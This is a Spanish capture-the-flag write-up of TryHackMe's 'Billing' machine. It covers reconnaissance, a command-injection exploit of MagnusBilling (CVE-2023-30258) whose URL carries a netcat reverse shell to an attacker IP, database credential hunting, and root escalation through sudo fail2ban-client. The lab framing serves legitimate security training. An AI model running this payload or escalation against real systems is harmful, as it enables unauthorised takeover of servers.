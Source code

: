```yaml
---
title: Billing
description: Write Up máquina Billing de Try Hack Me
published: true
date: 2025-05-11T11:08:35.573Z
tags: write up
editor: markdown
dateCreated: 2025-05-06T15:23:46.118Z
---
```


# Billing
Bienvenido, va a encontrar el write up de la máquina Billing de TryHackMe.

## Reconocimiento
Lo primero que vamos a hacer es un comando básico de detección de puertos mediante nmap. Por lo tanto el comando será
```nmap
nmap -sT -Pn -sV {IP} 
```
IMAGEN 1

Podemos observar como tenemos 3 puertos abiertos.
- Puerto 22: Para conexiones SSH
- Puerto 80: Para conexiones http
- Puerto 3306: Para base de datos SQL

Vamos a hacer un dirb para analizar todos las entradas disponibles en el website.
```
dirb http://{IP}
```
IMAGEN 2 DIRB

Observamos que tenemos el robots.txt disponible, por lo que vamos a entrar para observar que hay.

IMAGEN ROBOTS

No hay mucha información, por lo que vamos a ir al index normal.

IMAGEN INDEX

Como podemos observar, parece un login clasico, sin embargo si nos fijamos en la ventana podemos observar el nombre del software que es MagnusBilling.

Si nos vamos al website oficial podemos observar información de que usa un Framework de Javascript llamado ExtJS 6.2.0.981, esta versión es vulnerable según el CVE-2023-30258.

## Explotación
Ahora que tenemos el plan, vamos a ejecutar el script para poder hacer la sell reversa. 

Lo primero que vamos a hacer es un puerto de escucha con:
```
nc -lnvp 443
```

Luego vamos a escribir lo siguiente, lo cúal consiste en una ejecución de comando de forma remota mediante el path.

'http://{IP máquina}/mbilling/lib/icepay/icepay.php?democ=iamhacked;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc {IP atacante}10.9.3.144 443 >/tmp/f;#'

IMAGEN 5

Tras esto vamos a comprobar que usuario somos, con un id básico.

IMAGEN ID

Como podemos observar somos el usuario asterisk


Ahora lo que haremos será dirigirnos a /var/www/html/mbilling, donde vamos a analizar el contenido del index.php, para ver que configuración usa para el login.

IMAGEN INDEX

Como podemos observar, el archivo que nos interesa es uno ubicado en /protected/config y se llama main.php, ya qu eparece que esta toda la información.


Mirando el archivo podemos observar que toma la configuración de login de otro archivo de configuración llamado res_config_mysql.conf, ubicado en /etc/asterisk/res_config_mysql.conf.

IMAGEN BBDD

Vamos a entrar en la base de datos para ver si podemos acceder al website.

Antes vamos a securizar la shell mediante:
```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

Tras esto hacemoz Ctrl + Z y ponemos stty raw -echo;fg

Le damos a enter dos veces y ponemos export TERM=xterm.

IMAGEN SECURIZAR

Tras esto vamos a acceder a la base de datos como ibamos a hacer en un principio.

Imagen dentro

Podemos observar como tenemos una base de datos llamada mbilling, es la que usaremos y dentro tenemos muchas tablas, pero la que nos interesa se llamada pkg_user. Por lo que vamos a hacer
```mysql
SELECT * FROM pkg_user;
```

Lamentableente la información es demasiado densa para entendar.

IMAGEN BASE DE DATOS SACADA

Deberiamos descifrar la contraseña para poder acceder al usuario, sin embargo para completar la máquina no es necesario.

## Finalización
Ahora vamos a comprobar si tenemos la flag en el Home del usuario, sin embargo podemos observar que no hay, por lo que vamos a comprobar usuarios existentes y buscaremos la flag ahí.


IMAGEN FLAG


Ahora vamos a comprobar que comandos podemos hacer mediante el uso de sudo -l

IMAGEN SUDO -L


Como podemos observar, somos capaces de ejecutar el comando fail2ban-client, como root sin problema. 
```
sudo fail2ban-client set asterisk-iptables action iptables-allports-ASTERISK actionban 'chmod +s /bin/bash'
```
Este comando hace que cuando fail2ban detecte una IP que no debería entrar, su sentencia es que ejecute el comando /bin/bash, com root.

También es necesario autobanear nuestra popia IP, para ello ponemos
```
sudo /usr/bin/fail2ban-client set asterisk-iptables banip {IP}
```

IMAGEN FAIL2BAN

Tras esto, podemos crear una nueva shell con
```bash
bash -p
```

IMAGEN BASH

Tras esto podemos finalizar con la máquina ya que nos detecta que nuestra IP está vetada y por lo tanto nos inicia sesión como root, nos dirigimos al directorio de root y podemos usar el website.
IMAGEN ROOT